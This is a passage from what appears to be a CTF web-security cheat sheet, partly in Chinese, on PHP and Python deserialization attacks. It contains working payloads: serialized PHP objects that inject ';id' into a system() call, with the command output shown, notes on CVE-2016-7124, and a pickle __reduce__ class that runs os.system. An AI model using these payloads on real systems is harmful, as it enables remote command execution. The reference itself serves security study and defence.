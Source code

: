 - Input: `.php?str=O:6:"Kaibro":1:{s:4:"test";s:3:";id";}`
- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data) `

<br>

- Example 2 - Private

```php
    <?php

    class Kaibro {
        private $test = "ggininder";
        function __wakeup()
        {
            system("echo ".$this->test);
        }
    }

    $input = $_GET['str'];
    $kb = unserialize($input);

```

- Input: `.php?str=O:6:"Kaibro":1:{s:12:"%00Kaibro%00test";s:3:";id";}`

- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

---

- CVE-2016-7124
    - 影响版本：
        - PHP5 < 5.6.25
        - PHP7 < 7.0.10
    - 物件属性个数大于真正的属性个数，会略过`__wakeup`的执行
    - 反序列化会失败，但是`__destruct`会执行
    - HITCON 2016

- 小特性
    - `O:+4:"test":1:{s:1:"a";s:3:"aaa";}`
    - `O:4:"test":1:{s:1:"a";s:3:"aaa";}`
    - 两者结果相同

## Python Pickle

- `dumps()` 将物件序列化成字符串
- `loads()` 将字符串反序列化

Example:

a.py:

```python
import os
import cPickle
import sys
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))
    
shellcode = cPickle.dumps(Exploit())
print base64.b64encode(shellcode)
```
